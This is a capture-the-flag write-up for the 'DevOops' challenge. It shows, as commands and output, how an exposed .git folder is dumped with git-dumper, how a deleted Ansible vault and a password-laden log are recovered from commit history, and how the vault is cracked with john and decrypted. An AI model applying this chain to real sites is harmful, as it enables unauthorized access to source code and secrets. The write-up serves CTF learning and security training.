 # DevOops

## FR

L'un de vos amis apprend le métier magnifique de DevOps et il vous invite à aller voir son site. 
Il vous dit qu'il est déployé et administré en suivant les pratiques DevOps qu'il a apprise. 
Cependant, il faudrait qu'il travail un peu plus la sécurité...

## EN

One of your friends is learning the wonderful work of DevOps and invites you to check out his site. 
He tells you that it's deployed and managed according to the DevOps practices he's learned. 
However, he needs to work a little harder on security...

https://devoops.flag4all.sh

Auteur : 0xlildoudou (BZHack)

https://devoops.flag4all.sh

## Solve

Got a 403 on .git folder:
```
└─$ curl 'https://devoops.flag4all.sh/.git/' -i
HTTP/2 403 
server: nginx/1.25.2
date: Sun, 22 Oct 2023 02:56:30 GMT
content-type: text/html
content-length: 153
alt-svc: h3=":443";ma=900;
set-cookie: Fuzzzzz=srv_f9b31526358ee8527a97b151bb3ffa9877c2ae4b312325d636323f555eb4a12a; path=/

<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.25.2</center>
</body>
</html>
```

But we can still get the HEAD and so remaining of the repository
```
└─$ curl 'https://devoops.flag4all.sh/.git/HEAD' -i
HTTP/2 200 
server: nginx/1.25.2
date: Sun, 22 Oct 2023 02:57:37 GMT
content-type: application/octet-stream
content-length: 23
last-modified: Sun, 08 Oct 2023 13:50:59 GMT
etag: "6522b3c3-17"
accept-ranges: bytes
alt-svc: h3=":443";ma=900;
set-cookie: Fuzzzzz=srv_8e3764354bd1f2bc478366221e074e9125382782e4de6fdc445883887a99a536; path=/
cache-control: private

ref: refs/heads/master

└─$ curl 'https://devoops.flag4all.sh/.git/index' -i
HTTP/2 200 
server: nginx/1.25.2
date: Sun, 22 Oct 2023 02:57:46 GMT
content-type: application/octet-stream
content-length: 305
last-modified: Sun, 08 Oct 2023 13:51:01 GMT
etag: "6522b3c5-131"
accept-ranges: bytes
alt-svc: h3=":443";ma=900;
set-cookie: Fuzzzzz=srv_e9bae9731486be5da883770bdce55c226ce8874448d70bed639eea225d024492; path=/
cache-control: private

Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.

```

Dump everything using git-dumper
```
└─$ pip install git-dumper                                                                            
└─$ git-dumper https://devoops.flag4all.sh/.git devoops.flag4all.sh     
```

```
└─$ ll
total 12
-rw-r--r-- 1 kali kali 35 Oct 22 04:58 ansible.cfg
-rw-r--r-- 1 kali kali 27 Oct 22 04:58 index.html
-rw-r--r-- 1 kali kali 66 Oct 22 04:58 playbook.yml
└─$ cat ansible.cfg 
[default]
log_path=stdout_error.log                                                                                                                                └─$ cat playbook.yml 
---
- name:
  ansible.builtin.apt:
    name: '*'
    state: latest                                                                                                                                                                               
```
Nothing interesting locally, lets check the log
```
└─$ git log                                                        
commit fae74d667441a668193e0e25c0e8a89fa91695c0 (HEAD -> master)
Author: 0xlildoudou <0xlildoudou@flag4all.fr>
Date:   Sun Oct 8 13:51:01 2023 +0000

    Remove the vault

commit 3654f3ab8c69f2454bc92c4d0a74658e4bbd1619
Author: 0xlildoudou <0xlildoudou@flag4all.fr>
Date:   Sun Oct 8 13:51:01 2023 +0000

    add more ansible security

commit 69c2e48c84927a7987764868fff94ae1ceb3551e
Author: 0xlildoudou <0xlildoudou@flag4all.fr>
Date:   Sun Oct 8 13:51:00 2023 +0000

    remove log

commit 0a7aad9c7a133ed8def842b5e21b98fb02bfc8b3
Author: 0xlildoudou <0xlildoudou@flag4all.fr>
Date:   Sun Oct 8 13:51:00 2023 +0000

    add update playbook

commit 5f630a81ced302a5d2a1b8cd106ce783726a184f
Author: 0xlildoudou <0xlildoudou@flag4all.fr>
Date:   Sun Oct 8 13:50:59 2023 +0000

    Add index
```
We will checkout on the interesting commit (could also check with `git log -p` but it's easier to retrieve the file)

Before removing the log:
```
└─$ git checkout 0a7aad9c7a133ed8def842b5e21b98fb02bfc8b3
└─$ ls
ansible.cfg  index.html  playbook.yml  stdout_error.log
└─$ cat stdout_error.log 
command '0' not found
command '00' not found
command '000' not found
command '0000' not found
command '00000' not found
command '000000' not found
command '0000000' not found
command '00000000' not found
command '06071992' not found
command '09090' not found
command '0P3N' not found
command '0RACLE' not found
command '0RACLE38' not found
...
command 'xmux' not found
command 'xo11nE' not found
command 'XPRT' not found
command 'xxyyzz' not found
command 'xyzall' not found
command 'xyzzy' not found
command 'year2000' not found
command 'YES' not found
command 'yZgO8Bvj' not found
command 'ZAAADA' not found
command 'zbaaaca' not found
command 'zebra' not found
command 'Zenith' not found
command 'zeosx' not found
command 'zjaaadc' not found
command 'zoomadsl' not found
command 'zxdsl' not found
command 'ZXDSL' not found
```

```
└─$ git checkout 3654f3ab8c69f2454bc92c4d0a74658e4bbd1619
└─$ ll
total 16
-rw-r--r-- 1 kali kali  35 Oct 22 04:58 ansible.cfg
-rw-r--r-- 1 kali kali  27 Oct 22 04:58 index.html
-rw-r--r-- 1 kali kali  66 Oct 22 04:58 playbook.yml
-rw-r--r-- 1 kali kali 484 Oct 22 05:04 vault.txt
└─$ cat vault.txt   
$ANSIBLE_VAULT;1.1;AES256
35333634626634613035353634623737306439616563666463636237333261306435363865386665
3130633139353236303762396363366633363061303466300a336436333130396432396234633530
63306638663834643361613331323535303530336464653766353036386632386531323835666166
6237303966313765320a333236376461626633333830356262303133383530613939646232623434
65643565613365363665343438366563313463333333316163636463613965323630346465326663
6632633765666331363335663838646662626564656334336166
```

We will crack the vault password, rockyou wasn't working so I decided to use what we have in the stdout_error:
```
└─$ ansible2john vault.txt > devops.hash.txt
└─$ cat stdout_error.log | sed "s/.*'\(.*\)'.*/\1/g" > ../devops.wordlist.txt
└─$ john --wordlist=devops.wordlist.txt devops.hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ansible, Ansible Vault [PBKDF2-SHA256 HMAC-256 128/128 SSE2 4x])
Cost 1 (iteration count) is 10000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
netadmin         (vault.txt)     
```

```
└─$ ansible-vault decrypt vault.txt  
Vault password: 
Decryption successful

└─$ cat vault.txt                                                            
FLAG{UsE_4ns1Bl3_WiTh_Strong_P@ssw0rd}
```